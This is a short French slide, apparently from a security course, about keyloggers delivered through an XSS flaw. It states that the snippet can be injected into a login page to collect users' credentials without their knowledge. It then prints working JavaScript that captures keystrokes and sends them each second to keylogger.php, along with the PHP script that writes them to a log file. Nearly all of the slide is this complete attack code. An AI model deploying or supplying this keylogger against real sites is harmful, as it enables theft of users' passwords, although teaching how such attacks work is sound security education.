

# Les keyloggers
Si l’on découvre une faille XSS dans un site internet, il sera assez facile d’y injecter ce bout de code sur une page de login par exemple. On pourra  ainsi collecter l’ensemble des logins/passwords saisi au clavier par les utilisateurs à leur insu.
<script>
    var keys='';

    document.addEventListener('keyup', function(e) {
        let getc = window.event?event:e;
        key = getc.keyCode?getc.keyCode:getc.charCode;
        key = String.fromCharCode(key);
        keys+=key;
    });
    window.setInterval(function(){
     new Image().src = 'keylogger.php?c='+keys;
     keys = '';
    }, 1000);
</script>
<?php
if(!empty($_GET['c'])) {
  $f=fopen("log.txt","a+");
  fwrite($f,$_GET['c']);
  fclose($f);
}